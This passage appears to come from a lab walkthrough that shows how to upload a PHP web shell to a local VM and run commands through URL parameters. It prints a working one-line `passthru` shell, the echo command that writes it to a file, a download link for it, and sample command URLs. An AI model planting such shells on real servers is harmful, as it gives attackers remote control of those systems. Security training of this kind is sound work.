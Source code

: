 
`<?php passthru($_GET["cmd"]); ?>`


I save mine to a text file using echo.

* `echo '<?php passthru($_GET["cmd"]); ?>' > php-microshell.php`

You can copy and paste if you like, but make sure that your browser doesn’t change the quotation mark characters out of plaintext!
If you want to be sure, just delete them and add them yourself.

If you want to be REALLY sure, you can [download the shell from me.](https://raw.githubusercontent.com/berzerk0/pastehost/master/php-microshell.php)


If this shell works the way we hoped, we can just append "?cmd=commands" (without quotation marks) to the end of our URL.


Go ahead and upload the php-microshell.php using the same method we have used so far, then visit /uploads1/php-microshell.php

<br>
![A13-blankmicroshell.png](https://i.imgur.com/PKkBMDn.png)
<br>

There is nothing here! Well, not yet. We need to add some commands into the URL first.

Visit `http://192.168.56.102/uploads1/php-microshell.php?cmd=pwd`

<br>
![A14](https://i.imgur.com/VLFmENl.png)
<br>

We have successfully injected a command! This proves we could cause all sorts of trouble on the webserver. We could read files, start a reverse shell, download malware, install another backdoor, or  anything else we want! This is a BIG vulnerability.


Let’s see what else we can find out about the website. If we jump out one directory and run `ls`,  we’ll be able to see what other directories this website has to offer.


Visit `http://192.168.56.102/uploads1/php-microshell.php?cmd=cd .. ; ls`

<br>
![A15](https://i.imgur.com/3XWjRY4.png)
<br>

All of those seem like they’d belong on a normal website, except for *"l337saucel337"*- let’s see what it has to offer. Now that we know that this directory exists, we COULD just view it in the browser… but that’s no fun! Let’s use our shell to view it instead.


`http://192.168.56.102/uploads1/php-microshell.php?cmd=ls -l ../l337saucel337`

<br>
![A16](https://i.imgur.com/IRVYXhG.png)
<br>
